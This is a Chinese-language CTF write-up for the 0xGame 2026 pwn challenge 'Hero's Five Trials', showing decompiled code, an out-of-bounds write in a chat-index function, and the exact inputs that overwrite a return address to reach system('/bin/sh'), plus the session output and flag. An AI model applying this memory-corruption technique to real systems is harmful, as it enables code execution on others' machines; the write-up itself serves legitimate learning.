

# 勇士的冒险

`nc` ：

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups/week2/pwn/8 $ nc nc1.ctfplus.cn 24331
==============================
= [+] Choose cassette system =
==============================
choose the cassette you want to play!
what?
Choose finished.
Welcome to [ Hero's Five Trials ]

========================================
       WELCOME, BRAVE HERO
========================================

Five trials await you.
Defeat every monster to reach the end.


========================================
        HERO'S FIVE TRIALS
========================================
Player : Hero
Level  : 1
HP     : 120/120
Attack : 30
Defense: 10
Gold   : 200
----------------------------------------
1. Check Status
2. Buy Item
3. Sell Item
4. Inventory
5. Challenge
6. Leave Message
7. Exit
----------------------------------------
Choice: 
```

看看 IDA ：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  init(a1: argc, a2: argv, a3: envp);
  welcome();
  entry();
  init_game();
  puts(s: &byte_40300B);
  puts(s: "========================================");
  puts(s: "       WELCOME, BRAVE HERO");
  puts(s: "========================================");
  puts(s: &byte_40300B);
  puts(s: "Five trials await you.");
  puts(s: "Defeat every monster to reach the end.");
  puts(s: &byte_40300B);
  while ( 1 )
  {
    menu();
    printf(format: "Choice: ");
    switch ( (unsigned int)read_int() )
    {
      case 1u:
        check_status();
        break;
      case 2u:
        buy_item();
        break;
      case 3u:
        sell_item();
        break;
      case 4u:
        show_inventory();
        break;
      case 5u:
        challenge();
        break;
      case 6u:
        leave_message();
        break;
      case 7u:
        puts(s: aGoodbye);
        exit(status: 0);
      default:
        puts(s: "Invalid choice.");
        break;
    }
  }
}
```

`entry` ：

```c
int entry()
{
  char v1; // [rsp+Fh] [rbp-1h]

  memset(s: &s, c: 0, n: 4u);
  puts(s: aChooseTheCasse);
  read(fd: 0, buf: &s, nbytes: 5u);
  v1 = byte_405548;
  puts(s: aChooseFinished);
  if ( v1 != 0 )
    return puts(s: aWelcomeToHeroS);
  else
    return puts(s: aPermissionDeni);
}
```

关键是：

```c
read(0, &s, 5u);

v1 = byte_405548;

if ( v1 != 0 ) {
    return puts(s: aWelcomeToHeroS);
} else {
    return puts(s: aPermissionDeni);
}
```

`s` 缓冲区可以溢出。看看 `s` ：

```
.bss:0000000000405544                 public s
.bss:0000000000405544 s               db    ? ;               ; DATA XREF: entry+16↑o
.bss:0000000000405544                                         ; entry+39↑o
.bss:0000000000405545                 db    ? ;
.bss:0000000000405546                 db    ? ;
.bss:0000000000405547                 db    ? ;
.bss:0000000000405548 byte_405548     db ?                    ; DATA XREF: entry+4D↑r
```

`s` 下面紧连着的就是 `byte_405548` ，仅差 4 bytes 。而 `read` 最多又能读 5 bytes ，完全可以把 `byte_405548` 改成自己想要的值，也就是把 `v1` 改成自己想要的值，即我可以控制是打印 `aWelcomeToHeroS` 还是 `aPermissionDeni` 。不过控制打印没什么用，但看它们的名字，结合 4 byte 和 5 byte 这么明显的漏洞，可以猜想 `byte_405548` 绝不是只有控制打印这一个功能。看看它的 Xref ：



好吧，猜想错误，估计没什么用。接下来翻一翻 7 个分支，最后在 case 6 中看到：

```c
unsigned __int64 leave_message()
{
  int v1; // [rsp+4h] [rbp-6Ch] BYREF
  int v2; // [rsp+8h] [rbp-68h] BYREF
  int v3; // [rsp+Ch] [rbp-64h]
  _BYTE s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+68h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(s, c: 0, n: 0x50u);
  while ( 1 )
  {
    puts(s: "Enter chat index : ");
    __isoc99_scanf(a1: &unk_403008, a2: &v1);
    if ( v1 < 0 )
      break;
    v3 = 4 * v1;
    puts(s: "Chat Menu:");
    puts(s: a1ReadWord2Writ);
    puts(s: "Choice: ");
    __isoc99_scanf(a1: &unk_403008, a2: &v2);
    if ( v2 == 1 )
    {
      read_word(a1: (__int64)s, a2: v3);
    }
    else if ( v2 == 2 )
    {
      write_word(a1: (__int64)s, a2: v3);
    }
    else
    {
      puts(s: "Invalid choice.");
    }
  }
  puts(s: "Crazy!");
  return v5 - __readfsqword(0x28u);
}
```

`unk_403008` 看了是 `%d` ，这里 `__isoc99_scanf` 从用户那里录入 `v1` 的时候虽然检查非负，但不检查上限。它把这个乘以 4 得到 `v3` 作为 `read_word` 和 `write_word` 的参数。

这里的 `read_word` ：

```c
int __fastcall read_word(__int64 a1, int a2)
{
  return printf(format: "Value at offset %d: %d (0x%x)\n", a2, *(_DWORD *)(a2 + a1), *(_DWORD *)(a2 + a1));
}
```

`write_word` ：

```c
unsigned __int64 __fastcall write_word(__int64 a1, int a2)
{
  int v5; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  printf(format: "Enter value: ");
  __isoc99_scanf(a1: &unk_403008, a2: &v5); // 设置 v5
  *(_DWORD *)(a2 + a1) = v5;                // *(a2 + a1) 赋成 v5
  puts(s: "Value written!");
  return v6 - __readfsqword(0x28u);
}
```

这个可以越界读写 a2 + a1 ==实参== s + v3 == s + 4 * v1 地址处，但目前还没什么头绪。题目没给 C 库，有可能 `/bin/sh` 就在 ELF 内部。搜一下，发现被跳转到了 `win` (0x402202 ~ 0x402278) ：

```c
void __noreturn win()
{
  puts(s: &byte_40300B);
  puts(s: "=================================");
  puts(s: "       SECRET ENDING UNLOCKED");
  puts(s: "=================================");
  puts(s: "You found the easier way!");
  puts(s: &byte_40300B);
  system(command: "/bin/sh"); // 此处 0x402264
  exit(status: 0);
}
```

直接就有 `system("/bin/sh")` ！也就是说要想办法进入 `win` ，实现 ret2win 。考虑越界写。先看 `s` ：

```
-0000000000000060     _BYTE s;
```

根据 `s` 定位，如果能把 `s` 高处 0x68 字节，即：

- (RBP - 0x0000000000000060) + 0x68 = RBP + 0x8

也就是返回地址篡改成 `win` 中调用 `system` 时的地址，就可以拿到 shell 。因为 0x68 / 4 = (6 * 16 + 8) / 4 = 26 ，所以 `v3` 要传 26 。

再算一下 `system` 地址：

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups/week2/pwn/8 $ echo $((0x402264))
4203108

```

接着让 `leave_message` 正常退出。由于函数的后半段几乎陷在了 `while (1)` 死循环里，我们需要跳出去，也就是让 `v1` 等于 -1 ，即在下一次 `Enter chat index : ` 时传入负数，这样就进入 function epilogue 。

那么，我们要输入：

```
abcde
6
26
2
4203108
-1
cat flag
```

开始操作：

```bash
(sage) scetayh@yuprae-gentoo ~/Projects/0xgame2026-writeups/week2/pwn/8 $ nc nc1.ctfplus.cn 24331
==============================
= [+] Choose cassette system =
==============================
choose the cassette you want to play!
abcde
Choose finished.
Welcome to [ Hero's Five Trials ]

========================================
       WELCOME, BRAVE HERO
========================================

Five trials await you.
Defeat every monster to reach the end.


========================================
        HERO'S FIVE TRIALS
========================================
Player : Hero
Level  : 1
HP     : 120/120
Attack : 30
Defense: 10
Gold   : 200
----------------------------------------
1. Check Status
2. Buy Item
3. Sell Item
4. Inventory
5. Challenge
6. Leave Message
7. Exit
----------------------------------------
Choice: 6
Enter chat index : 
26
Chat Menu:
1. Read word  2. Write word
Choice: 
2
Enter value: 4203108
Value written!
Enter chat index : 
-1
Crazy!
ls
flag
pwn
cat flag
0xGame{c6b0ddce-5161-4ab6-93d0-c6d8b25e2559}
```

得到 flag 为 `0xGame{c6b0ddce-5161-4ab6-93d0-c6d8b25e2559}` 。